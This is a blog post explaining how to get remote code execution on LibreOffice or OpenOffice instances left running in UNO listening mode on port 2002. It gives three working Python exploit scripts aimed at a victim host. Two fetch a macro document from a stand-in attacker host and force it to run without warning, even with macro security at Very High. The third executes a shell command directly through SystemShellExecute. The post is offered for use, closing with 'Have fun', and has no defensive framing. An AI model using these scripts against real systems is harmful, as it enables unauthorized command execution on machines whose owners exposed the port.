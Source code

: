 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). 

This mode can be used on any supported platform (Windows, Linux, Mac OS X).

Everything you need is to start your office program with the following command:

`soffice -accept="socket,host=0,port=2002;urp;"`

or

`soffice -accept="socket,host=0,port=2002;urp;" -headless -nologo -nodefault -nofirststartwizard`

if you don't need graphical output.

If it is already started you can check it with NMap:

> PORT     STATE SERVICE VERSION

> 2002/tcp open  urp     UNO Remote Protocol (LibreOffice)


Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to interact with UNO API with python3-uno package.

There are several ways to execute command on remote system using UNO in LibreOffice. 

I'll show you the following three:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

![Very High](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/macro_high.png)



## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. 
You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself using *Shell* function of Basic language.

![Custom macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/custom_macro.png)
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

![Open with macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/open_with_macro.png)


File can be accessed locally as well as remotely.


```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)

inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN

inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple([]))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* API interface. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



